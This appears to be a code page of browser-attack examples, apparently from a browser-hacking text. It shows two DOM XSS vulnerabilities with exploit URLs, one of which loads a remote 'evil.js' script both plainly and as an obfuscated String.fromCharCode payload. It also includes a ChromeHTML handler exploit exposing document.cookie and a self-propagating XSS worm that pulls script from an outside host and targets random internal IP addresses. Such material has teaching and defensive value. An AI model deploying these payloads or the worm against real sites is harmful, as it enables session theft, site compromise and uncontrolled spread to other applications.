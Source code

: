 ////////////////////////////////////////////////

// vulnerability #1
document.write(document.location.href.substr(document.location.href.search(/#welcomemessage/i)+16,document.location.href.length))

// exploit #1
http://browservictim.com/homepage.html#welcomemessage=<script>document.location='http://browserhacker.com'</script>

// vulnerability #2
function getId(id){
console.log('id: ' + id);
}

var url = window.location.href;
var pos = url.indexOf("id=")+3;
var len = url.length;
var id = url.substring(pos,len);
eval('getId(' + id.toString() + ')');

// exploit #2
// Without encoding, this wont work because of the single quotes

// Without encoding:
http://browserhacker.com/page.html?id=1');s=document.createElement('script');s.src='http://attacker/evil.js';document.getElementsByTagName('head')[0].appendChild(s);//

// With encoding:
// We obfuscate the single quotes with a character encoding sequence.
http://browserhacker.com/page.html?id=1');eval(String.fromCharCode(115,61,100,111,99,117,109,101,110,116,46,99,114,101,97,116,101,69,108,101,109,101,110,116,40,39,115,99,114,105,112,116,39,41,59,115,46,115,114,99,61,39,104,116,116,112,58,47,47,97,116,116,97,99,107,101,114,47,101,118,105,108,46,106,115,39,59,100,111,99,117,109,101,110,116,46,103,101,116,69,108,101,109,101,110,116,115,66,121,84,97,103,78,97,109,101,40,39,104,101,97,100,39,41,91,48,93,46,97,112,112,101,110,100,67,104,105,108,100,40,115,41,59))//

-----------------------------------------------------------

var sneaky = 'setTimeout("alert(document.cookie);", 4000); 

document.location.assign("http://www.gmail.com");';
document.location = 'chromehtml:"80%20javascript:document.write(sneaky)"';

In this ChromeHTML URL handler exploit, this would set the current location to a Chrome frame, with a timeout that would execute after Gmail had been loaded.
--------------------------
Xss Worm in the infected origin
  <iframe name="iframex" id="iframex" src="hidden" style="display:none">
</iframe>
<script SRC="http://browserhacker.com/xssv.js"></script>


XSS worm JS
  This tries to compromise other web applications

function loadIframe(iframeName, url) {
    if ( window.frames[iframeName] ) {
        window.frames[iframeName].location = url;
        return false;
    }else{
        return true;
    }
}

function do_request() {
    var ip = get_random_ip();
    var exploit_string = '<iframe name="iframe2" id="iframe2" ' +
        'src="hidden" style="display:none"></iframe> ' +
        '<script SRC="http://browserhacker.com/xssv.js"></script>';

    loadIframe('iframe2',"http://" + ip + "/index.php?param=" + exploit_string);
 }

function get_random(){
    var ranNum= Math.round(Math.random()*255);
    return ranNum;
}

function get_random_ip(){
    return "10.0.0."+get_random();
}

setInterval("do_request()", 10000);
----------------------------------------------------
Sammy Worm
http://samy.pl/popular/tech.html